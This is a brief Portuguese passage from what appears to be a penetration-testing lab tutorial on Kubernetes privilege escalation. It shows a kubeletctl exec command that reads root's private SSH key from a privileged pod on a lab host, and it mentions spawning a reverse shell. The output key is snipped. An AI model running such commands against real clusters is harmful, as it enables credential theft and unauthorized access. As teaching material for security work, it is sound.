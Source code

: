 Se o pod estiver em execução, podemos executar o comando e gerar um shell reverso ou recuperar dados confidenciais, como a chave SSH privada do usuário root.

#### Extraindo a chave SSH do Root

```shell-session
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
...SNIP...
```

















































































